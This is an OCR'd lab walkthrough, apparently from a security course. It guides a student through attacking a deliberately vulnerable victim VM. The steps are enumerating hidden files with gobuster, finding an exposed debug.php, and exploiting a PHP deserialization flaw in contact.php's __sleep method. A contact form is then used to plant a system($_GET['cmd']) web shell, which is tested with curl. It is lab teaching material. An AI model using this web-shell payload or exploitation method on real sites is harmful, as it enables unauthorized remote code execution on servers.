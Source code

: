 1. On the attacker-10 vm, open a terminal. To access the attacker-10 vm, on your browser,
   enter the address http://attacker_ip to access the VNC session. You may run ``` docker inspect          <image tag name> ``` to find the container's IP address.

2. Enter the command ``apt update -y && apt upgrade -y && apt`` install
   gobuster -y to install a tool called gobuster.

3. Then on the victim-11 vm, open a terminal, type the command
   ```
   sudo apt-get update
   sudo apt-get install net-tools
   ```
   then type the command ifconfig to check the IP of the server.

4. On the attacker-10 vm, open firefox browser, or install any browser you like. Enter
   http://victim_ip to the URL bar to access the VNC session

5. Try going through the website like a normal user, is there anywhere you can exploit,
   anything you can enter?

6. Then, on the attacker vm. use the command gobuster -w
   /wordlist/wordlist_php http://victim_ip to list the directory and hidden
   file on the webserver. Feel free to try other web enumeration tools, and use different
   wordlist as well.

7. After running the gobuster rto enumerate the hidden file on the webserver, you will find a
   new file called debug.php running on the website. To open debug.php, use the command
   http://victim_ip/debug.php

8. Now you have found the debug.php, it’s a mistake made by the developer. To access the
   source code of debug.php, you can enter the URL: viewsource:http://<victim's IP address>/debug.php?              read=debug.php to view the source code of the
   debug.php.

9. In the source code of debug.php, there are two Get parameters you can manipulate. One
   is called read and the other is execute. read can let you check the source code of the
   websites and execute will allow you to execute file contain PHP source code

10. When you run the gobuster tool, I am sure you have also found another php file called
   contact.php. contact.php is the file where the website will process the contact information
   entered by user, we can see the source code of this file by entering the URL:
   http://<victim's IP address>/debug.php?read=contact.php

11. Upon reviewing the source code of contact.php file, what have you found? There is a
   critical vulnerability in the file, a deserialization vulnerability.
   ```
   <?php
   # Omitted some code
   
   $new_customer = new customer;
   $new_customer->name = $name;
   $new_customer->email = $email;
   $new_customer->comment = $comment;
   $temp = serialize($new_customer);
   
   # Omitted some code
   
   class customer
   {
      public $name;
      public $email;
      public $comment;
      public function __sleep()
      {
         // Write the content to file once the object is serialized
         $filename = $this->name . '_' . $this->email;
         file_put_contents("./user_info/$filename", $this-
   >comment, FILE_USE_INCLUDE_PATH);
      }
   }
   ?>
   ```
12. A closer look at the preceding code reveals that the vulnerability exists in the magic
   function __sleep() defined in the class customer. The logic in the function __sleep()
   shows that once an instance of class customer is serialized, it will write a file to a
   directory in the web root directory.

13. Now we know there is a vulnerability in the code, how do we use this vulnerability?
   Recall earlier I asked you to find the parameter you can interact with on the website,
   there is a webpage where you can enter user defined text. To navigate to this page, enter
   the URL http://<victim_ip>/contact.html to access the page.

14. On this page, there are three parameters you can define: name, email, and comment. If
    you still remember the source code of the contact.php file, you can make an educated
    guess that the contact.php will handle the post request sent by contact.html form. If you
    want to verify that, you can also download burpsuites and verify. Or you can also
    examine the source code of the contact.html page to see where the POST request is sent
    to.

16. To exploit the vulnerability we see before, enter test in the name bar, enter user.php in the
    email bar, and <?php $exec = system( $_GET['cmd'] ) ?> in the comment section. After
    entering all the text, click submit to plant the webshell
    ```
    root:~# curl http://<victim's IP address>/user_info/test_user.php?cmd=whoami root
    ```

18. On the attacker VM, use the command curl
    http://<victim's IP address>/user_info/test_user.php?cmd=whoami to test whether the planted
    webshell is working or not.

19. A secure server is running on the address <secure's IP address>, you are welcome to try attacking
    it, but it does not have the deserialization vulnerability and misconfiguration present on
    the victim VM.
